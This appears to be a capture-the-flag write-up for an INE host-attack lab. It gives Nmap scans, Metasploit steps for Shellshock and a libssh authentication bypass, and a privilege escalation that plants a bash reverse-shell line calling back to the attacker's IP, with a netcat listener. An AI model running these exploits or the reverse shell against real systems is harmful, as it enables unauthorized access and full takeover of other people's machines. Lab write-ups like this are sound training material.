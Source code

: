 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

`nmap -sS -O -p- -T4 target1.ine.local`
`nmap -sS -O -p80 -sV -T4 target1.ine.local`

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

`nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"`

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
```
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS target1.ine.local
setg TARGETURI /browser.cgi
setg LHOST 192.164.224.2 
run
```
**Note: If something is not working, try selecting another LPORT.**

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

### Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


## Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

`nmap target2.ine.local -p- -T4 -sS`
`nmap target2.ine.local -p22 -T4 -sS -sV`

Using:

`searchsploit libssh`

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
```
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1
```

Navigating to the home folder of the user, we locate the third flag.


### Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
`bash -i >& /dev/tcp/192.164.224.2/41234 0>&1`

After using Netcat to open port on the attack machine to listen for communications:

`nc -nlvp 41234`

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
